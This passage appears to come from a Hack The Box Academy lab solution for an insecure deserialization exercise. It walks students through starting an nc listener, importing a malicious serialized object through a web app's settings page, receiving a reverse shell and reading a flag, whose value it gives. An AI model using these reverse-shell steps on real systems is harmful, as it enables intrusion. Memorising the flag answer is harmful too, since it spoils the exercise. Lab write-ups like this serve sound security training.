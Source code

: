 ![[HTB Solutions/CWEE/z. images/4300367deb818c6227978bd3314989be_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/f5452adb138f226a49e667f7dd41c9d7_MD5.jpg]]

Once registered, students need to log in and then navigate to `/settings`:

![[HTB Solutions/CWEE/z. images/83f55b9a4875571651482cbc97021866_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/4d38c6ca069c0a30848dd4ec57f08db2_MD5.jpg]]

Subsequently, students need to make sure that they have an `nc` listener on the port that was specified when creating the malicious serialized object (9999 in here):

Code: shell

```shell
nc -nvlp PWNPO
```

```shell
┌─[us-academy-1]─[10.10.14.165]─[htb-ac413848@htb-pj87jtuskt]─[~]
└──╼ [★]$ nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Afterward, students need to paste in the attained malicious serialized object into the "Settings" field and then click on "Import Settings". Students will notice that the reverse shell connection has been established successfully in the `nc` listener:

![[HTB Solutions/CWEE/z. images/2a0963229250e41f347d0721a858904a_MD5.jpg]]

```shell
Ncat: Connection from 10.129.204.98.
Ncat: Connection from 10.129.204.98:60778.
whoami

htbank
```

At last, students need to print out the contents of the flag file "flag.txt" which is one directory up from the landing directory, attaining the flag `HTB{4604f8d9c5574d3e0abdf7876ad4e933}`:

Code: shell

```shell
cat ../flag.txt
```

```shell
cat ../flag.txt

HTB{4604f8d9c5574d3e0abdf7876ad4e933}
```
